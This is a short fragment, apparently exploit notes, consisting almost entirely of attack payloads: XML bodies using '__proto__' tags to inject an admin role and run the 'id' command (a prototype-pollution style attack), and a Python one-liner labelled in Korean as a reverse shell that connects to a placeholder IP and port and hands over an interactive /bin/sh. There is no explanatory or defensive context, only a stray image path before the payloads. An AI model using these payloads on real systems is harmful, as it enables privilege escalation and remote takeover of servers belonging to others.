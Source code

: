 <__proto__><exec>id</exec></__proto__>
<__proto__><role>admin</role><exec>id</exec></__proto__>
<__proto__>

리버스 쉘
<role>admin</role>
<command>python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'</command>
